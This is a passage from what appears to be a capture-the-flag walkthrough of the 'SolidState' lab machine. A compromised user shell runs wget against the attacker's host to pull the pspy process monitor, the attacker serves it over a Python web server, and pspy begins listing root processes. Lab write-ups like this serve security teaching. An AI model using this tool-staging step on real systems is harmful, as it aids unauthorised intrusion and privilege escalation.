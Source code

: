 ```

${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ wget 10.10.14.47/pspy32
--2020-04-29 22:39:06--  http://10.10.14.47/pspy32
Connecting to 10.10.14.47:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2656352 (2.5M) [application/octet-stream]
Saving to: ‘pspy32’

pspy32                        100%[=================================================>]   2.53M  9.42MB/s    in 0.3s    

2020-04-29 22:39:07 (9.42 MB/s) - ‘pspy32’ saved [2656352/2656352]

```

I see the request on the webserver:

```

root@kali:/opt/pspy# ls
pspy32  pspy32s  pspy64  pspy64s
root@kali:/opt/pspy# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.51 - - [29/Apr/2020 22:37:02] "GET /pspy32 HTTP/1.1" 200 -

```

Now `chmod` and run:

```

${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ ./pspy32
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855

     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                   ░           ░ ░
                               ░ ░     
Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2020/04/29 22:39:40 CMD: UID=0    PID=997    | /usr/sbin/cups-browsed
...[snip]...

```
